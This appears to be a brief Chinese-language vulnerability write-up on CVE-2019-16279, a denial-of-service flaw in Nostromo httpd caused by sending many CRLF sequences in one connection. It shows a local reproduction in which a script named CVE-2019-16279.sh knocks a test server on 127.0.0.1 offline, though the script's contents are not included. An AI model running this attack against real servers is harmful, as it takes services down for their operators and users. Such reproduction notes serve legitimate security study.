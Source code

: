 # （CVE-2019-16279）Nostromo httpd dos

> 原文：[https://www.zhihuifly.com/t/topic/3053](https://www.zhihuifly.com/t/topic/3053)

# （CVE-2019-16279）Nostromo httpd dos

## 一、漏洞简介

（CVE-2019-16279）dos

## 二、影响范围

## 三、复现过程

This bug exploit a memory error when sending too many `\r\n` in a single connexion.

Example

```
$ curl http://127.0.0.1:8080
HELLO!
$ ./CVE-2019-16279.sh 127.0.0.1 8080
$ curl http://127.0.0.1:8080
curl: (7) Failed to connect to 127.0.0.1 port 8080: Connection refused 
```